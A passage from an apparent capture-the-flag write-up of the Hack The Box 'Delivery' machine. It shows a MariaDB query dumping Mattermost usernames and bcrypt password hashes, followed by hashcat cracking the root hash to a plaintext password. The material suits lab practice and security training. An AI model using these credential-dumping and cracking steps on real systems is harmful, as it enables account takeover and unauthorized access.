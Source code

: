 ```bash
| Roles              | text         | YES  |     | NULL    |       |
| AllowMarketing     | tinyint(1)   | YES  |     | NULL    |       |
| Props              | text         | YES  |     | NULL    |       |
| NotifyProps        | text         | YES  |     | NULL    |       |
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |
| Locale             | varchar(5)   | YES  |     | NULL    |       |
| Timezone           | text         | YES  |     | NULL    |       |
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |
+--------------------+--------------+------+-----+---------+-------+
25 rows in set (0.001 sec)
```

Get specific columns from the table

```bash
MariaDB [mattermost]> select Id, Username, Password from Users;
+----------------------------+----------------------------------+--------------------------------------------------------------+
| Id                         | Username                         | Password                                                     |
+----------------------------+----------------------------------+--------------------------------------------------------------+
| 64nq8nue7pyhpgwm99a949mwya | surveybot                        |                                                              |
| dijg7mcf4tf3xrgxi5ntqdefma | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| jing8rk6mjdbudcidw6wz94rdy | channelexport                    |                                                              |
...
+----------------------------+----------------------------------+--------------------------------------------------------------+
10 rows in set (0.000 sec)
```

### Crack password hash

Looks like Bcrypt, good news that the wordlist isn't too big, so it won't take much time

```bash
┌──(bravosec㉿fsociety)-[~/htb/Delivery]
└─$ vi mysql.hash

┌──(bravosec㉿fsociety)-[~/htb/Delivery]
└─$ hashcat mysql.hash passwords_best64.txt -m 3200
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Delivery]
└─$ hashcat mysql.hash passwords_best64.txt -m 3200 --show
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```
